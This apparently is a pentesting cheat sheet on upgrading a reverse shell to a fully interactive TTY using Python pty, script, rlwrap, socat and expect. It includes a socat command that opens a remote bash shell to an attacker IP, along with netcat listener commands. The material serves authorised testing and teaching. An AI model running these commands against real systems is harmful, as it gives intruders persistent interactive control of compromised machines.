 # Fully Interactive TTY

## 01 - Spawn TTY Shell

### 1.1.1 - Python

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z

user@pentestos:~$ echo $TERM && tput lines && tput cols
```

- In attacker machine for `/bin/bash`

```
user@pentestos:~$ stty raw -echo
user@pentestos:~$ fg
```

- In attacker machine for `/bin/zsh`

`user@pentestos:~$ stty raw -echo; fg`

```
$ reset
$ export SHELL=/bin/bash
```

- Display the terminal colors (You can skip this step if the shell is stabilized)

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### 1.1.2 - Script

- This is a universal method for GNU/Linux and Unix-like operating systems

```
$ script -qc /bin/bash /dev/null
CTRL+Z

user@pentestos:~$ echo $TERM && tput lines && tput cols
```

- In attacker machine for `/bin/bash`

```
user@pentestos:~$ stty raw -echo
user@pentestos:~$ fg
```

- In attacker machine for `/bin/zsh`

```
user@pentestos:~$ stty raw -echo; fg

$ reset
$ export SHELL=/bin/bash
```

- Display the terminal colors (You can skip this step if the shell is stablized)

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### 1.1.3 - Rlwrap

- Using the GNU readline wrapper with arrow keys. You can use this when using a normal reverse shell for penetrating Windows machine

`user@pentestos:~$ rlwrap nc 192.168.0.115 80`

`user@pentestos:~$ rlwrap -r -f . nc 192.168.0.115 4242`

- `-f .` will make rlwrap use the current history file as a completion word list.

- `-r` Put all words seen on input and output on the completion list.

### 1.1.4 - Socat

- Using `socat` to spawn a shell with interactive TTY

- **Attacker**

```
user@pentestos:~$ socat file:`tty`,raw,echo=0 tcp-listen:4242
```

- **Target**

`$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:4242`

### 1.1.5 - Expect

Using `expect` to get a TTY

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

- **Output**

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48257
sh: no job control in this shell
sh-3.2$ su -
su: must be run from a terminal
sh-3.2$ expect sh.exp
spawn sh
sh-3.2$ su -
Password:  mypassword
localhost ~ #
```

---
## References

- [Shells Full TTYs](https://book.hacktricks.xyz/shells/shells/full-ttys)

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

- [Post Exploitation Without a TTY](https://pentestmonkey.net/blog/post-exploitation-without-a-tty)